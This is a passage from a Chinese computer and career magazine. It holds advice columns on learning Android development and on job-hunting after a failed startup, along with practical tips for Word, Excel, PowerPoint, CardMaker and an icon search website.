令狐冲（自学成才）：我做C++ Builder开发3年，PHP5年，从PHP转向Android，只用2周时间看了一下《thinking java》，用一周的时间看了Android开发案例，现在已经开发了4个Android应用程序了。学语言不难，只要你有数据结构与开发理论的基础，以及开发思路的积累，学语言只是看一些语法而已，很简单。自学完全可以。

北大青鸟职业教育研究院院长肖睿：要不要参加培训、参加什么样的培训要根据自己的情况来决定。这位同学没有Java基础，我建议通过专业正规的培训中心系统学习一下比较好。以北大青鸟APTECH新发布的学士后Android培训课程为例，没有基础的同学，每天学习6-8小时，大约5个半月就可以完成安卓的学习。前4个多月主要是学习Java基础，后一个月的Android课程是面授的，全部费用在1万元左右。

### 小结

在时间充裕和自学能力尚可的前提下可以自学，多练代码多泡技术论坛多看教程就行了。不过对于没有基础的同学可能要花比较久的时间了。经济允许的情况下，建议可以先参加培训学习Java，培训班可以让你更快速更顺利地掌握专业知识，掌握了Java基础再学Android就会轻松很多。

### 自学、培训优缺点比较

### 如何选择Android培训机构

- **看师出何门**：教者在法，学自轻易。看师资阵容，是判断培训机构教学质量较为直接的方法。
- **看课程设置是否合理、实用**：看学习内容是否适合企业需求？学习内容操作流程是否与企业一致？课程设置应以企业需求为导向，以真实项目为案例。
- **看教学服务体系是否完整**：要看教学体系，够不够规范，符不符合你的学习习惯。在外面培训不像上大学，有4年的功夫足够你去适应、体会。培训通常也就几个月的时间，一定要找一家和自己对脾气的培训机构。课程的试听是有必要的。
- **看结业后的衍生服务**：不要以为推荐就业就万无一失了，要注意细节，比如是不是专业对口的就业。

## 职点迷津（五） 创业失败后再找工作好难

提问：我2006年毕业，在一家房地产公司做了2年，2009年4月辞职和朋友合开了一家小店，是做特色饮品的，但因为经验不足，一直没什么起色。年初的时候忍痛转让了，虽然创业失败了，但学到了很多，自己并不后悔。但找工作时就遇到了麻烦。创业失败的事我在面试时都如实回答，因为之前一直做文秘工作，所以现在也想找找类似岗位。面试了几家都在差不多的问题上卡住了：你有两年时间没有相关工作经验，现在再做还能胜任吗？这两年的经历似乎成了求职路上的阻碍。我是否应该隐瞒这段创业经历？如果隐瞒了，两年的空白如何解释？

回答：不建议楼主面试的时候撒谎，小公司可能不会追究你的过往经历，大公司一般会去调查一下，到时候发现作假更麻烦。招聘单位可能对你的工作稳定性有所顾忌，因为文秘这个岗位对稳定性还是有要求的。建议还是如实说明，但一定要交代清楚创业这段经历带给你的价值。比如要会分析失败的原因，从这段经历中学到了什么，最好和你以往的经历或求职方向相一致或相关。公司最看重的其实还是个人能力，一定要把创业的经历当作一种资本。此外，告诉公司你的职业规划，不要给他们留下不稳定的印象。

### 创业经历对再就业有影响吗

现在大学生出来创业的很多，但成功的毕竟是少数。相信大多数人还是会重返职场，仍旧要面临再就业。那么这段创业经历对再就业究竟有什么影响呢？

### 我会优先选择有创业经历的学生

林东 35岁 杭州绿盛集团董事长
对大学生创业这个话题，白手起家的林东很有体会。两名应聘大学生，同样的专业，能力不相上下，各方面条件都差不多。如果只能选一个，我会选择有创业经历的那个。创业不一定非得大项目，就算你只是在校门口开一家小店，我也会对你另眼相看，因为他体会过经营管理的辛苦，他会站在一个领导者的角度上思考。我欣赏敢于创业的大学生。创业不一定人人成功，也许100个人创业，成功的只有5个，那失败的95个大学生是不是走错路了呢？不！20年后，如果我们再找到这100个人，会发现有95个人已经成功了。大学生有创业经历，是一笔巨大的财富，对未来很有帮助。

### 我不倾向录用创业过的学生

李峰民 43岁 大民公司董事长
同样白手起家的大民公司董事长李峰民却持相反态度。创业的确是笔伟大财富，但那是对个人而言，对公司而言，招聘学生最看重的是稳定性和忠诚度。我不需要他面面俱到，有经营管理经验，能站到领导者角度思考，有创业经历的员工给我的印象就是不稳定，一旦他在我这累积到足够的经验、学到相应的技能，时机成熟，可能他又会去创业。我也接触过一些创业后重返职场的学生，虽然他们的能力很强，但他们不太适应从自己当老板到给人打工的角色转换，总想着二次创业，很难真正踏实下来。

### 小结

关于创业经历，不同的企业有不同的看法。但不管怎么说，失败后再就业时一定要有清晰的职业规划，并在求职时体现出创业中的收获。相信总会找到与自己价值观相符合的企业。

## 职点迷津（六） 如何过好大学第一个八分之一

大一新生Lee_敏儿：我是今年进入大学的，刚从高三的炼狱中解脱出来，只想好好享受一下生活。可转眼间入学一个多月了，我觉得自己完全没有方向了。本来在暑假制定了大学四年的计划，可是真正到大学一切完全被打乱。目前最迫切解决的问题就是我在大一这一学期，该学些什么。希望能够得到解答。谢谢！

解答：每个人的情况不同，大学经历也不尽相同，不妨听听过来人的经历，还是很有借鉴意义的。下面是一位北大学长的建议。

### 熟悉环境

我建议大一的时候，不但要好好学习，还要海阔天空地“玩”。我大一曾经创下每周出去逛街五次左右的记录。为何呢？一是熟悉地理环境，二是把握商机为自己将来拉赞助或者打工做铺垫。另外呢，校园里的各项事务也要去尝试一下，各个教学楼、各种设施、各种人群等等，总之，从宏观上争取对大学以及对大学所在的城市有一个大致的了解，这一切都与大二、大三的成长与腾飞相辅相成！

### 养成好的学习习惯

大一塑造的个性及养成的习惯可能会对你的一生都有影响，所以大一的时候一定要对自己严格要求。兵法有云：求上得中，求中得下，求下一无所得。如果大一的时候就自己放松，那么大三大四的时候人基本上也散了。具体来讲，首先是好好学习，不要逃课，还不是你逃课的时候，要不然大二、大三、大四你就没法过了。最好期中期末考试的时候取得好成绩并拿得奖学金；其次，多去图书馆看书，大一是你去图书馆看杂书最好的时机，因为大三大四的时候你要么忙着考研，要么忙着毕业，没有心情和时间来扩展知识面了。

### 周末、假期多打工

大一学生的课余生活很丰富，平时在学生会干活最多的是大一新生。打工参加人数最多的也是大一新生，为什么呢？因为大一的学生“好忽悠”呗！那此时作为大一的你就不要抱怨，不要觉得自己吃亏了，因为大家都是这么过来的，你不做，你的大学就缺少很多东西。所以只要自己喜欢，自己有时间，我建议你多去闯荡一下，不要害怕失败。大学犯的错误你有足够的时间和机会去改，毕业后就不行了！

### 多参加活动，把握自己的兴趣并找到自己的特长

大学的很多活动，都是大一大二的学生参加得最多，尤其是大一，占参加人数的一半以上。这个时候，形形色色的学生社团在纳新，各种活动、比赛的海报贴爆了张贴栏，那么你要做的就是尽可能去参加，不要怕失败！一是可以锻炼自己的社交能力，二是能通过比赛活动等发现自己的兴趣爱好并使自己的特长更长！另外，最好在迎新晚会上崭露头角，比如：出节目、参与组织晚会、做主持人等。

## 软件联合 快速制作出门证

某厂招收了600多名工人，招工完毕后，为了便于统一管理，人力部门准备为全体员工制作统一的出门证。人力部的电脑里存有所有员工的基本信息和照片文件，此外也有一台可供彩色输出的打印机。如何才能方便快速地批量制作出所需要的证件，是摆在他们面前的一个现实问题。

员工小李经过琢磨和实践，想出了一套解决方案。她使用能导入数据表格中数据，可以实现批量制作证卡的办公软件CardMaker，结合原有的Excel表格数据，很轻松地便完成了这项任务。CardMaker可以从Excel表格中批量导入员工照片及相关信息，具有强大的数据库关联能力，只需编辑一张卡片并作必要的关联设置，便可一次性打印出全部员工的出门证。

### 一、背景与照片准备

首先需要准备一张卡片用的背景图片，可以用现成的图片，也可以自己用图像处理软件来设计，以此做出最终效果图，以便在CardMaker中制作证卡时使用。

接着是整理员工照片工作。给员工照相时一般是按部门或分队组拍摄的，千万注意照片顺序要和记录的员工姓名一一对应，否则可就乱套了。拍照完成后，我们可以给照片按原顺序批量重命名，稍做整理，不需要把照片文件名改为员工姓名，那样工作量会很大，后面用起来反而不便。

### 二、员工信息表准备

下面就是在Excel中制作相应的员工信息表，以备导入数据库所用。我们在第一行输入出门证上所需信息字段，如：姓名、性别、部门、编号、照片。一定要有照片字段，而且照片文件名一定要和姓名逐一对应，在制作时才可正确批量导入。制作好员工信息表后把该信息表和照片放在同一文件夹内。

### 三、导入数据批量制证

启动CardMaker，在菜单栏上选择“设置→设置卡片尺寸”，宽高尺寸要设置成和我们前面设计好的背景图片大小一致。然后在菜单栏上单击“图像→插入图像→来自文件”，找到前面制作好的背景图片，插入到工作区，作为卡片背景。

接下来在菜单栏上选择“数据库→从Microsoft Excel导入”命令，在弹出的对话框中找到前面制作好的员工信息表文件，如“全公司出门证信息.xls”，双击打开，弹出“编辑数据库记录”窗口，确定导入。

导入成功后，就可以在菜单栏“文字→从数据库插入文字”子菜单发现插入的表格字段：<姓名>、<性别>、<部门>、<编号>、<照片>。加“<>”表示它们是字段，批量打印时可与数据库关联，自动改变相关信息打印。

在菜单栏上单击“文字→插入文本”，在弹出的输入框中输入文字，如“姓名”，然后在卡片工作区背景上单击，拖动文本框，设置文字大小及字体，并放在合适位置，依次输入“姓名”、“性别”、“班级”、“编号”。

然后在菜单栏上单击“文字→从数据库插入文字”，点<姓名>，在插入的姓名文字后面单击，拖动文本框，设置文字大小及字体，放合适位置，依次插入<姓名>、<性别>、<部门>、<编号>，和前面插入的文字一一对应。

现在就是关键的关联照片了，这一步的目的是让照片与姓名关联起来。单击菜单栏上“图像→插入图像→来自文件”，找到第一张员工照片，如0101.jpg，双击打开，插入到背景图片上，适当调整大小及位置，然后在照片上单击右键，选择“编辑图像→关联数据库→<照片>”。

最后，进行打印设置，具体设置可根据实际打印纸大小及证卡大小而定。设置完毕发送到打印机上打印即可。

（文/顾长有）

## 版面美观 还需注意细微处

要实现Word版面的美观，要从大处着眼，做好整体版面的布局。与此同时，要实现这个大目标，从小处着手也很重要。单从字体的排布来说就很有讲究。下面的两则用法有助于你用好Word，让你的版面更加匀称美观并符合视觉习惯。

### 一、用好字体微调 版面恰到好处

一般人排版，只会根据Office系统提供的字号列表来选择字体。例如，遇到版面排布中某些不合适的段落，用4号字排不合适，就从列表中换大一个或小一个级别的字号，或者挤一挤或拉一拉字距行距。甚至干脆将字体拉长或压扁，撑满版面，将就一下了事。实际上，这样将就的结果是以牺牲完美效果为代价的。其实，只要用字体微动的技术就可以使你的版面更具艺术魅力。

在Word中运用‘Ctrl+]’和‘Ctrl+[’组合键可以逐磅增大或减小字号，这样就摆脱了固有的系统字号级别的限制，实现按字体磅数增减字号。这种方法虽然方便，但不能以更微小的0.5磅为单位微调字号。如果要实现以更微小的步调微调字号，可用‘Ctrl+Shift+>’或‘Ctrl+Shift+<’组合键。比如，假设当前选中文本的字号是10磅，那么当按下‘Ctrl+Shift+>’组合键时，选中文本的字号将变为10.5磅，再按则依次以0.5磅为单位递增，直到效果满意为止。

以如上方法调整版面布局，行距字距没有发生畸变，每个字的字形也没有发生畸变，一切始终是以字号为中心在变化，这样调整出来的版面无论怎么看都会很匀称，因而也是最完美无暇的字体布排方式。

### 二、调整字体方向 增进内容理解

常看到一些海报广告或报刊上涉及到竖排的单词或字符串时，仍和汉字习惯一样以字头向上排版，拼读起来让人很费劲。其实，在制作时，只要让这些字符串转个头，版面就美观多了，读起来也省劲多了。具体实现方法如下：

- 第一步：首先选择要设置竖排的文字，通过菜单选择命令‘插入→文本框→横排’。
- 第二步：在文本框中输入文字，选中文字，单击右键，从快捷菜单中选择‘文字方向’命令，选择汉字头朝上，字母躺倒的方式排版，确定后你就会看到比较符合视觉习惯的样式了。
- 第三步：右键点击文本框，设置文本框格式，把填充颜色设置为‘无填充颜色’，线条颜色设为‘无线条颜色’，确定之后，这个无形的文本框文字就可以随意移动到版面中任何需要的位置了。

> 小提示：文字框的建立可以有两种方法，在输入文字之前，先插入一个文本框，然后再输入文字；或者也可以选中已输入的文字，然后按上面的方法插入文本框。两种办法通用。
> (文/米线)

## 如何制作个性的学生名片

如果你是一名学生，一张独具个性的名片可以帮助人们记起你，联系你，更好地推销自己，寻找有效的人际网络，建立个人品牌。下面的建议将帮助你创造属于自己的个性学生名片。祝你好运！

### 学生名片应包含的信息

- *全名：不要用昵称或简称。
- *大学校名和毕业年份。
- *专业的电子邮件地址：如果没有一个专业的e-mail地址，正好借机注册一个。要避免.edu之类的邮件地址。Gmail是个不错的选择，创建的用户名一定要简单、容易阅读并尽可能短，如Yantao.Zhao@gmail.com，能给对方传递一个专业的信号。
- *电话、地址等联系方式：这是可选的，提供一种最容易联系到你的方式即可。
- *爱好或专业团体：可以将此视为自己的亮点告诉更多的人。你属于一个专业的学生组织？你喜欢摄影？你有做游戏设计工作的热情？你有实习或其他相关经历？尽可能展示这一类型的信息。
- *微博、博客或个人网站：如果你愿意与人分享，不妨在名片上注明你的微博、博客或个人网站。可将你的观点，你的更详细的项目经历等发布在上面，使雇主更全面地了解你。
- *专业及职业描述要准确：可以在名片上描述自己所学专业或实习的职业。比如，“有抱负的游戏设计师”或“游戏设计学生”。这样的名称并不意味着你不设计游戏，反而让人感觉你为此着迷，有专业范！不要只是说自己是“游戏设计师”，这类名称让你看上去像只是以此作为谋生手段，就像厨师或保安一样。

### 学生名片范例

当我读研究生时，我的名片信息看起来是这样的：

赵彦韬
北京理工大学
计算机应用 硕士~2007年
电话：13912356789
QQ: 456789
电子邮件：yantaozhao@gmail.com
在XX进行XX项目实习
课题：网络语音电话

名片背景可选择校园气息浓郁的图案，如黑板、铅笔、书本、课桌等。下面提供一些学生名片模板，更多模板可访问Cfan论坛http://bbs.cfan.com.cn，搜索“学生名片”下载。

> (文/李峰民)

## EXCEL中分类汇总数据巧转移

平时使用Excel进行数据处理时，会用到分类汇总功能。得到汇总数据后，需要将其转移到一个新工作表中排版打印，使用拖选复制的方法，总会将所有数据复制过去。虽然可以使用按住Ctrl键，一行一行地选择分类汇总数据后再复制出来，但如果数据较多时，就显得很麻烦，很不实用。那怎样快速转移分类汇总的数据，提高汇总数据速度？

其实使用快速定位功能，就会轻松将分类汇总数据巧转移到新工作表中，操作也很简单。就以使用Excel 2010汇总各班各科平均成绩为例来看看如何操作吧！

### 一、分类汇总

打开成绩统计工作簿，切换到“原始成绩”工作表，将数据按“班级”列进行升序排列，在“数据”标签下点选“分类汇总”项，打开“分类汇总”对话框，选择“分类字段”为“班级”，“汇总方式”选择“平均值”，在“选定汇总项”中勾选各科名称和总分项，最后点击“确定”按钮，得到分类汇总数据（如图1）。

### 二、转移汇总数据

点击左侧的分类汇总分合标签“2”显示出各班平均值，在“开始”标签下点击“查找和选择”按钮下箭头，从菜单中选择“定位条件”项，打开“定位条件”对话框，在“选择”区中点选“可见单元格”项，点击“确定”按钮，就会自动将所有的班级平均值行数据选中（如图2）。在选择区域中右击选择菜单中的“复制”命令，将这些数据复制到剪贴板上，再新建一个工作表，将这些数据以“数值”方式粘贴到其中即可，只得到分类汇总得到的各班平均数值，而不会将所有数据复制过来，最后排版打印即可。

> (文/王彦博)

## Android工程师如何炼成

报告指出，随着3G移动应用的日益广泛，市场对Android工程师的需求量大增。Android的薪水嘛，也是相当诱惑人的。那么实际情况是否如此？如何成为一名Android工程师？本期特邀两位资深Android人士为您细细道来。

**何剑，北京韬略伟达科技有限公司CEO&联合创始人**
**刘漪娟，西安云翼软件创意总监**

4月份的一份人才供需报告指出，2011年4月Android人才招聘量显著增加，比3月增加了23%。报告同时指出，有一年开发经验的Android工程师的月薪在8000元左右，不少企业却仍愁招不到人。实际情况是否如此？

**刘漪娟：**安卓市场前景还是蛮大的。首先是用户群的支持，使用安卓手机的人很多，很多山寨机目前也是安卓的系统。就我们公司而言，的确面临着招不到人的窘境。这里面有两方面的原因：一是市场的需求量大；另一方面是西安本身这方面的人才不多，缺口大。不过Android薪水在西安只属中等略高，不算特别高。

**何剑：**月薪8K……太多了！属于行业虚火。一年工作经验的在我们公司顶多5K！当然，也看个人能力了，能力强的8K也不算多。

### 目前招聘Android开发人员有什么标准？

**刘漪娟：**我们公司是做安卓应用开发的。招人的时候，和大多数公司一样，会优先考虑有手机从业经验的人，最好是接触过安卓平台开发的人。因为每个平台都有自己的特别之处，Android系统也有自己的开发规范，这是我们希望招收有经验员工的原因。

当然，对于毕业生也不是完全不考虑，如果有比较优秀的人我们还是愿意培养的。

对于在校生而言，我们希望他至少能拿出一个自己做的Android平台的小应用，不用太复杂，其实主要是想以此来考察他是否了解Android平台的开发规范以及一些常识性的问题。如果是社会人员转行的话，要看之前是否有过手机开发的经验。Android平台是基于Java的，所以必须至少熟练掌握Java。

**何剑：**没错，Java经验一定要有，这是基础！此外，我还有几个标准：聪明、年轻、不惜力、好学、知识面宽。

李开复在微博上谏言，在校学生可以考虑学习Android软件开发。如何学好Android的开发？是否有必要参加一些培训班？

**刘漪娟：**对于有开发基础的人而言，找个对这方面很了解的程序员，帮忙搭建下环境，找几本相关的书看一下，自己做一些功能简单的应用，有作品出来基本问题都不大，关键是你本人是否有兴趣。
对于没有任何经验的人来说，如果有机会参加一些质量高的培训，比如会带着学生们实实在在搞项目开发的培训，建议还是参加一下比较好。至少面试的时候，有作品拿出来，这个是有加分的。

**何剑：**我倒认为培训班用处不大，以我多年的招聘经验，基本不招培训班出来的。深入掌握一门语言的唯一方法——就是多写！多看些书，下载公开的源代码，多做研究，看自己能否写出来。最好找个公司实习或工作，哪怕从最基本的活儿开始，一点点扎扎实实地做起来，也比培训班强。

童鞋们刚入行别太看重钱，20来岁的如果不纠结于一两千块钱的工资差额，找到一个合适的公司发展，到30岁工资几万的时候，回想当初，会发现所有的努力都有回报，天道酬勤啊！

### 就你们的经验而言，什么样的人适合做Android开发？

**刘漪娟：**对于在校生而言，不具备两个条件不要参与进来：一是本身就是学Java的；二是本人的确热爱开发这个行业。如果不具备上述两个条件，最好不要盲目参与进来！任何事，都是坚持到最后才能胜利，而基础不扎实、没有兴趣的人，是很难坚持到最后的，所以在做出决定前一定要非常谨慎。

其实程序开发这个事情，入门不难，难在精通。我很多程序员同事以前都不是学计算机的，有学机械的、电子的，最离谱的有学医药的！所有的开发工作都是有共通之处的。不过从C跳到Java代价有些大，个人觉得还是在一个方向认真积累钻研下去比较好，毕竟在一个语言上花费的时间越长，掌握的程度也会越高！

**何剑：**1.数学好、逻辑清晰，做程序员才有后劲；
2.爱写程序，爱控制代码，享受魔术师一样的程序生活；
3.掌握好扎实的算法、数据结构等基本功。这是成为Android高手的3个条件，缺一不可！

### Android开发的前景如何？是否前途无量？

**刘漪娟：**肯定是有前途的，但是也存在一定泡沫，在3、5年内会大有发展，3、5年以后不好说，这个泡沫迟早要被扎破的。

**何剑：**嗯……Android领域目前没有明确的商业模式，的确有点泡沫。大家都看到了运营商生意的萎缩，便寄希望于IOS、Android这样的平台。IOS已经有超过50万款应用，Android也有20万款左右了，用户的选择浩如烟海！小公司拼创意，大公司拼华丽，没啥创意又不能砸钱做华丽的，基本上都是瞎折腾！两三年之内，智能手机、智能平板设备将遇到桌面应用、游戏厂商的大举入侵，如果这两三年之内Android应用做不起来，就没多大机会了。

**附：**Chris（克里斯）是一位来自波兰的Android应用开发者，他开发的应用在Android Market上免费提供下载，并通过广告获得收入。最近他在自己的博客上面分享了从事Android开发带来的收入情况，并通过自己的经历给予 Android开发入门者非常忠实的忠告。详情请访问http://www.cnbeta.com/articles/127514.htm（怎样成为一名Android开发者）。

关于Android语言的开发，您有何经验和体会，欢迎发至zc@cfan.com.cn

（文/Justdo）

## 让Word校对得更准确一些

### 一、借助网络细胞词库，增强Word校对功能

Word可以自动校对文档中的拼写和语法，但许多最新的网络热词都无法准确识别，总是会出现“误判”的尴尬。为了提高Word对流行词汇的校对准确度，我们可以借助搜狗拼音输入法的网络细胞词库来扩充Word的默认词库，使它的校对功能更为强大。

第一步：安装最新版的搜狗拼音输入法，调出搜狗拼音输入法，右击输入条选择“设置属性”命令打开“搜狗拼音输入法设置”对话框，切换到“词库”选项卡，在这里勾选所有类型的细胞词库，单击右侧的“立即更新所勾选细胞词库”按钮，这样可以获得最新的搜狗词库。
第二步：检查“词库操作选择”下拉列表框，这里的默认设置为“词库备份”，须更改为“导出文本词库”，然后单击右侧的“执行该操作”按钮；在随后弹出的对话框中设置导出路径和文件名，很快就可以获得我们所需要的词库文件，将其中的所有英文字母、单引号删除后保存。（注：具体方法可用本刊此前曾介绍过的正则表达式成批替换法快速删除）
第三步：打开Word“选项”对话框，切换到“校对”选项卡，单击“自定义词典”按钮，单击“新建”按钮新建一个空白的自定义词库，设置为默认的词典，进入词典文件所在的路径（Windows Vista/Windows 7的文件路径应该在“users\账户名\AppData\Roaming\Microsoft\UProof\Custom.dic”，Windows XP下的文件路径应该是C:\Documents and Settings\账户名\Application Data\Microsoft\UProof\Custom.dic”，打开上面定义的.dic文件，将搜狗词库文件中的内容粘贴过来，保存修改之后关闭退出。

### 二、借助输入法常用词库，增强Word校对功能

我们还可以借助输入法的常用词库来提高Word校对功能。把自己常用的词语都导入到Word的词库中，那么出现不合理检查的提示就变少了。这里以QQ输入法为例进行操作。进入输入法属性设置界面中的“词库管理”页面，选择中文用户词库或英文用户词库，然后选择导出为文本，存放在任意位置。然后用编辑器打开这两个文本文件，同样用我们此前学到过的批量替换功能进行替换，去掉这个文件中的英文、数字和标点；接下来用与上面同样的方法，将编辑之后的词库列表复制添加到Word校对词典文件中即可。把自己常用的词语都导入到Word的词库中，那么在出现某些特定的专业术语或自定义词语时，就不会出现无效的提示了，从总体上提高了校对的准确度和效率。

(文/阿文)

## 双重查找巧替换特殊内容

有位文学青年找到我，说他已经使用Word写成了一篇文学作品，现在感觉应该给人物“蔡翠花”起个小名，所以他眼下要把作品中的对话中的所有“蔡翠花”更改为“小翠”，而对话之外的“蔡翠花”依然保留。就此，他问有没有快速而准确的修改方法。这个问题，不同与以往我们见到过的替换总是，我用Word 2010帮他找到了解决办法。

第一步：启动Word 2010并打开该篇文档，在“开始”选项卡，单击“编辑”组中的“替换”。
第二步：单击“查找”选项卡，在“查找内容”框中键入“*”；单击“更多”，然后选中“使用通配符”复选框；单击“在以下项中查找”，在弹出的菜单中，单击“主文档”。
第三步：将“查找内容”框中的内容更改为“蔡翠花”；单击“在以下项中查找”，在弹出的菜单中，单击“当前所选内容”。
第四步：单击“替换”选项卡，确认“查找内容”框中是“蔡翠花”，在“替换为”框中键入“小翠”，单击“全部替换”按钮。
第五步：当出现“Word已完成对所选内容的搜索，共替换×××处。是否搜索文档的其余部分？”的询问时，请单击“否”按钮。
经过两次查找和一次替换操作后，文档中所有对话中的“蔡翠花”都被替换为“小翠”，而对话之外的“蔡翠花”不受任何影响。笔者仅以上例说明双重查找的实际应用，希望大家能够举一反三，运用好Word的双重查找功能。

(文/贾培武)

## 幻灯片成功演示技巧系列 PPT达人秘籍——弄清演示对象

> 【编者】PPT演讲的成功，不单单是取决于PPT使用和制作技术方面的技巧，还有制作思路方面的学问、演讲方法等诸多方面。本专题讲述的就是PPT专家们在PPT制作和成功演讲过程中的经验、体会和技巧。

### 1. 目标人群要弄清

不考虑演示对象，埋头去做自己的幻灯片，这样的做法是要不得的。制作PPT之前，你必须首先对你的演示对象要做到心中有数。然后才能根据演讲对象的不同，准备不同内容和形式的演讲词。如果你是给专业人士进行演示汇报，那么，你需要用专业的眼光和思维来组织你的PPT，太过普通和肤浅会贻笑大方。如果你是给普通大众做演示汇报，则要注意演讲内容的通俗化处理，要把专业的东西用生动形象的形式，转化为生活化的表达方式，以便让人们更容易接受。

小技巧：以上这些，如果你记性不错或胸有成竹，准备好材料后完全可以脱稿演讲；如果你不相信自己的记性，则也可以依靠电脑来帮忙，自己根据演讲对象设定的演讲词，虽然不适合于安排在外放的幻灯片文字当中展示给观众，但可以写在备注信息中供自己演讲时参考。你可以借助于PPT软件的双屏显示功能来实现演讲内容的备注提示，这样，观众在大屏幕上看到的是演讲提示信息，而你在自己的电脑上看到的则是具体的演讲内容。

### 2. 演讲目的要把握

演示的目的必须明确，时刻不能忘掉你为什么要向他们做演示汇报。所有的演示内容，无论多么幽默和搞笑，最终都必须能为你的目的服务，不能偏离太远。有的幻灯片套用了特别酷的模板，有的甚至还加入了声效的成分，猛一看很特别，但听完演讲之后，你的感觉只有一个——幻灯片做得很漂亮，印象深刻。而对于演讲者究竟讲了些什么内容，你几乎没有什么印象，这样的设计就起到了适得其反的效果。本来，漂亮的幻灯片效果要为你的演讲服务，结果是，由于你的演讲核心内容没有很好地与幻灯片的形式进行搭配，以至于让超酷的形式冲淡了本来就已经很平淡的内容。事实上，这样的幻灯片还不如一个只有文字的幻灯片来得效果好。因此，无论你要制作多么炫酷的幻灯片，每时每刻都要记住，你演讲的目的是要向观众传达你的思想，而不是让观众夸赞你的幻灯片的漂亮。漂亮的幻灯片没有错，但这种效果必须能为演讲主题服务，否则宁可不要！

### 3. 观众背景要研究

了解观众的背景，有利于让你在准备材料时更好地把握分寸。如果是面向专业级的受众，你的材料一定要有独特的视角和一定的深度。这时，你就需要去搜集必要的有关这方面的背景信息，演讲时熟练应用，让观众对你有一种“自己人”的感觉；如果是面向大众，你的材料则应该考虑能更好地服务于你所面对的群体的工作、生活的主流层面，让他们感觉到你对他们的生活是多么的了解，因而他们也就会对你的见解或主张乐于接受。

### 4. 观众人数需考虑

了解观众人数也至关重要。如果观众人数少，演讲的时候，会场上总共也就那么几排观众，那么，你的PPT元素可以包括一些比较细小的内容。如果观众很多，要考虑现场可能条件较差，比如光线、音响效果不能尽如人意等。这时，如果PPT中包含有许多细小的元素，那么后面的观众可能很难看清楚。这种情况下，就需要考虑将必须展示的页面内容进行分屏放大处理，或做必要的简化处理，把重点放在语言演讲而非PPT演示。如果考虑到音响效果可能较差，那么更需要在演示的文字界面上下功夫，尽量能让那些从听觉上不能满足的观众从视觉上弥补，来明白你的意思。与此同时，你也需要考虑，尽管自己做了许多准备，可能合场上靠后的观众还会看不清屏幕上的内容，这种情况下就需要见风使舵，演讲时适时地调整自己的语调。

(文/郭玲丽)

## 设计图标唾手可得

在设计制作网页、幻灯片或软件的过程中，我们常常会要用到各种各样的图标。除体现版权和个性的图标需要自己亲自设计外，网络上放着那么多现成的图标，就没有多大必要再花时间设计。古人云“君子生非异也，善假于物也”，这个道理我们应该知晓。
但是，网上的图标虽多，要在短时间内搜索到合适的图标，也不是一件容易的事。即便是找到了图标，如果格式不符合要求，要找软件去转换，也是一件麻烦事。下面的一站式方案则可以解决这个问题，它不但可以帮你快速搜索到自己需要的图标，还可以即时实现各种图标之间的格式转换，甚至可以将本地现成的图片转换为你所需的图标。
首先，通过 http://findicons.com/ 登录到图标搜索引擎主界面，我们的图标解决一揽子方案就从这里开始。

### 一、图标搜索不用愁

要搜索一个图标，首先输入和你要找的图标有关的关键字。比如，如果你要找一个“前进箭头”的图标，可以尝试使用下列关键字：“forward”、“right”、“next”、“forward arrow”、“right arrow”、“next arrow”等等。
建议你从普通的关键词入手，这样可以得到足够多的搜索结果方便下一步过滤。如果搜索结果数量太大（超过1000个结果），你可能需要使用更具体的关键词，例如改用“forward arrow”（请用空格分隔多个单词）。
那么，当搜索出的结果有一大堆，面对这样庞大的结果，你仍然无从选择时，该怎么办呢？这时，你可以使用过滤系统快速找到需要的图标。
FindIcons.com有同类网站中最全的搜索结果过滤器。我们在当前结果中搜索，用它快速过滤当前结果而不用重新开始新的搜索。例如，你搜索了“flag”并且返回了超过1000个结果，在结果页面的搜索输入框中继续输入“canada”将过滤出加拿大国旗的图标；输入“germany”将过滤出德国国旗的图标。
用尺寸控制搜索范围。在搜索过程中，可以用调节尺寸范围的方法来控制搜索图标的大小。然后在搜索结果中挑选出符合特定尺寸范围的图标。例如，默认值“0 - 128px”的含义是所有尺寸大于0像素并且小于或者等于128像素的图标都将出现在搜索结果中。

巧用颜色实现图标搜索。在默认情况下，FindIcons.com显示所有颜色的图标。但有些时候你需要某种颜色的图标，例如，搜索“folder”会返回超过4000个结果，点击红色按钮可以精简到600个结果，而且全部是红色的图标，这样就大大缩小的搜索范围。
巧用优先排序原则进行搜索。FindIcons.com默认按图标和关键词的相关度排序，因此可能有各种尺寸的图标混合在一个搜索结果页面。如果你希望优先看到大图标或者优先看到小图标，可以使用这个工具来排序。
小提示：
也许你担心图标的版权问题，其实，该网站上的所有图标都是免费的，至少免费用于个人用途。有些图标明示不允许用在商业用途，另外有些作者要求在使用图标的页面链接到他们的网站。

### 二、图标格式转换易

将要下载的图标进行格式转换，或将硬盘中的图片或图标转换为其他格式，这些都不成问题。不用安装任何软件，用Findicons提供的两种图标转换器就可轻松搞定。
1. 嵌入式转换器。除了ICO、ICNS和PNG格式，在搜索结果的每个图标框中都集成了一个“转换图标”按钮。按这个按钮它将提示你把图标保存成BMP、GIF、JPG、PSD或者TIF格式。
2. 独立转换器。借助于独立的图标转换器让你可以上传并转换一个硬盘里的图片。点击网页顶栏的“转换”按钮，选择硬盘中的文件即可进行转换。它支持下列格式：ICO、ICNS、ICO(多尺寸)、ICNS(多尺寸)、BMP、EPS、GIF、JPG、PNG、PSD、SVG、TGA、TIFF。
独立转换器能完成图片到ICO或ICNS的转换，它会根据需要缩小图片而且可以自动生成所有合适尺寸的ICO或ICNS文件并打包成.zip文件供用户下载。它还能完成ICO或ICNS到图片的转换，它会提取ICO或ICNS文件里所有尺寸的图片（如果是多尺寸ICO或ICNS文件），然后提示你哪些尺寸需要被转换成目标格式。
此外，作为附加功能，独立的图标转换器也能用于任意两个支持的图片格式的互转。这样，你就可以把它当作一个本地图片的常用格式转换器，省去了为转换图片格式而安装转换器软件的麻烦。
（文/苍山）

## 格式刷 文字之外的高效

使用Office“格式刷”处理文字段落可以大大提高工作效率。但是，格式刷的作用绝不仅仅限于文字段落的排版应用。在Office应用的其他方面，如图片、图形以及Excel单元格格式设置，PowerPoint幻灯片背景设置等方面，格式刷也能发挥它的神奇作用，为工作提效助你一臂之力。

### 1. 图片、图形格式快速刷统一

如果一篇文档中有很多图片或图形，为了美观，通常我们会将它们设置为一种格式，使用格式刷可以快速完成处理。以Word 2007为例，选择要复制格式的图片或图形，在“开始”选项卡上的“剪贴板”功能区中，单击“格式刷”按钮，此时鼠标指针变为画刷图标，使用鼠标单击选择要设置格式的图片或图形，即可将该图片或图形同步为一种格式。

### 2. 复杂表格样式也用格式刷

